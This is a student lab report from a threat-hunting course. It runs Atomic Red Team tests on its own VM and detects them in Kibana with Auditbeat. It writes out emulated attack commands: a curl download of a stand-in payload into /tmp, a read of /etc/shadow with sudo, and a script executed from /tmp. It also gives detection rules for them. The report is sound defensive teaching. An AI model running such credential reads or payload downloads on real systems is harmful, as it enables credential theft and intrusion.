




# Week 9 — Atomic Red Team: emulating post-compromise actions and detecting them in the SIEM

**Course:** Introduction to Threat Hunting (ITH), Astana IT University
**Project topic:** CTI analysis of phishing infrastructure (`delivery-usps.vip`)
**Syllabus task (section 3.3, Week 9):** run selected atomic tests (e.g. T1059, T1003), and record and analyse the results in a SIEM. Source: Atomic Red Team Wiki and GitHub repository.
**Lab:** Kali Linux VM (VirtualBox); Elasticsearch 8.19.23, Kibana; **Auditbeat** (auditd module) for endpoint telemetry.

All tests were run against our own lab VM. No real system was attacked and no real credentials were stolen. Times in the Kibana screenshots are in the VM browser's time zone (UTC-5).

---

## 1. Summary

| Item | Result |
|---|---|
| Tool | Atomic Red Team (Red Canary) — tests cloned from the official GitHub repository |
| SIEM telemetry | Auditbeat `auditd` module (every `execve`, plus file-access watches) |
| Tests run | T1059.004 Unix Shell · T1105 Ingress Tool Transfer · T1003.008 /etc/passwd and /etc/shadow |
| Result | all three tests were captured and found in Kibana |

## 2. Why these tests

Weeks 6–7 covered how the attacker gets in (phishing link → click) and how a compromised host scanning the network is detected. Week 9 covers what the attacker does **on the host right after the foothold**. We picked three atomic tests that form a short post-compromise chain and continue the same story:

```
Week 6:  T1566.002 Spearphishing Link -> T1204.001 Malicious Link -> foothold on victim host
Week 9:        |
               v
         T1059.004  run shell commands      (Execution)
         T1105      download a tool/payload (Command and Control)
         T1003.008  read /etc/shadow        (Credential Access)
```

The syllabus suggests T1059 and T1003 as examples; we used their Linux sub-techniques (T1059.004, T1003.008) plus T1105, which ties directly to phishing (a payload is pulled onto the host after the user clicks).

## 3. Why Auditbeat (not Packetbeat)

Packetbeat (used in Weeks 5–7) only sees **network** traffic. Atomic tests are **host actions** — running commands, reading files — which Packetbeat cannot see. So we installed **Auditbeat** with the `auditd` module, which records every program execution (`execve`) through the Linux kernel audit subsystem, with no gaps even for very short-lived commands.

Audit rules configured in `/etc/auditbeat/auditbeat.yml`:

```yaml
auditbeat.modules:
- module: auditd
  audit_rules: |
    -a always,exit -F arch=b64 -S execve -k exec
    -a always,exit -F arch=b32 -S execve -k exec
    -w /etc/shadow -p r -k shadow_access
    -w /etc/passwd -p r -k passwd_access
- module: system
  datasets: [process, user, socket]
```

Data view in Kibana: `auditbeat` (`auditbeat-*`).



## 4. Tests, commands and what was observed

Script: [`atomic_tests.sh`](atomic_tests.sh). Each test below lists the command, the Kibana query, and the result.

### 4.1 T1059.004 — Unix Shell (Execution, TA0002)

**What it emulates:** an attacker runs commands through a shell after gaining access.

**Command (Atomic Red Team pattern — create and execute a shell script):**
```bash
sh -c "echo 'echo Hello from Atomic Red Team' > /tmp/T1059.004.sh; chmod +x /tmp/T1059.004.sh; /tmp/T1059.004.sh"
```

**Kibana query:**
```
process.args : "/tmp/T1059.004.sh"
```

**Observed:** 2 events with `auditd.data.syscall: execve` — `process.args: [/bin/sh, /tmp/T1059.004.sh]` (the script running) and `[chmod, +x, /tmp/T1059.004.sh]` (making it executable).



### 4.2 T1105 — Ingress Tool Transfer (Command and Control, TA0011)

**What it emulates:** the attacker downloads a tool or payload onto the compromised host — the step right after a phishing click in a real campaign.

**Command (download a file with curl):**
```bash
curl -fsSL "https://example.com/" -o /tmp/T1105_payload.bin
```
*(The URL is an allowlisted lab host standing in for an attacker's payload server.)*

**Kibana query:**
```
process.name : "curl"
```

**Observed:** 5 events — the `curl` execution (`auditd` `execve`) **and** the outbound network connection captured by the `system/socket` dataset: `destination.domain: example.com`, `destination.ip: 104.20.23.154`, `destination.port: 443`. This single test gives two kinds of evidence: process execution and the network flow it created.



### 4.3 T1003.008 — OS Credential Dumping: /etc/passwd and /etc/shadow (Credential Access, TA0006)

**What it emulates:** the attacker reads the local password files to harvest credentials/hashes.

**Command:**
```bash
cat /etc/passwd | tail -3
sudo cat /etc/shadow | tail -3
```

**Kibana query:**
```
process.args : "/etc/shadow"
```

**Observed:** 2 events with `execve` — `process.args: [cat, /etc/shadow]` and `[sudo, cat, /etc/shadow]`. Our audit rule `-w /etc/shadow -p r -k shadow_access` also watches direct reads of the file, giving a second detection path (query: `tags : "shadow_access"`).



## 5. Detection notes (defender's view)

Each test maps to a simple, reusable detection:

| Technique | Detection idea |
|---|---|
| T1059.004 | alert on shell scripts created and executed from world-writable dirs (e.g. `/tmp/*.sh`) |
| T1105 | alert on `curl`/`wget` fetching files to disk, especially to `/tmp`; correlate with the outbound connection |
| T1003.008 | alert on any process reading `/etc/shadow` (process `cat`/`grep` with arg `/etc/shadow`, or the file-watch key `shadow_access`) |

These could be turned into Kibana alerting rules exactly as in Week 7 (CAR-2021-01-001).

## 6. ATT&CK mapping

| Atomic test | Technique | Tactic |
|---|---|---|
| Unix shell script | T1059.004 Unix Shell | Execution (TA0002) |
| curl download | T1105 Ingress Tool Transfer | Command and Control (TA0011) |
| Read /etc/shadow | T1003.008 OS Credential Dumping: /etc/passwd and /etc/shadow | Credential Access (TA0006) |

## 7. Limitations

- Single lab VM; the tests were run by us, so this demonstrates detection, not a real intrusion.
- Auditd records execution and the watched file reads; it does not inspect file contents, so we see *that* `/etc/shadow` was read, not what was taken.
- `execve` logging is noisy (hundreds of events in minutes). Real use needs tuning and allowlisting.
- Only three tests were run; Atomic Red Team has many more per technique.

## 8. Files in this folder

```
09-Atomic-Red-Team/
├── README.md
├── atomic_tests.sh
└── screenshots/
    ├── 01-auditbeat-auditd.png     auditd events flowing into Kibana
    ├── 02-t1059-unix-shell.png     T1059.004 shell script execution
    ├── 03-t1105-ingress-tool.png   T1105 curl download + network connection
    └── 04-t1003-shadow.png         T1003.008 read of /etc/shadow
```

## 9. References

- Atomic Red Team — https://github.com/redcanaryco/atomic-red-team
- Atomic Red Team Wiki — https://github.com/redcanaryco/atomic-red-team/wiki
- MITRE ATT&CK T1059.004 Unix Shell — https://attack.mitre.org/techniques/T1059/004/
- MITRE ATT&CK T1105 Ingress Tool Transfer — https://attack.mitre.org/techniques/T1105/
- MITRE ATT&CK T1003.008 /etc/passwd and /etc/shadow — https://attack.mitre.org/techniques/T1003/008/
- Elastic Auditbeat — auditd module documentation
- Course syllabus ITH 2026–2027, section 3.3, Week 9
- Previous work: `06-ATTACK-Framework`, `07-MITRE-CAR`

**AI use:** the report structure, the audit configuration and the helper script were prepared with the help of Claude (Anthropic). All tests, results and screenshots come from our own lab environment.
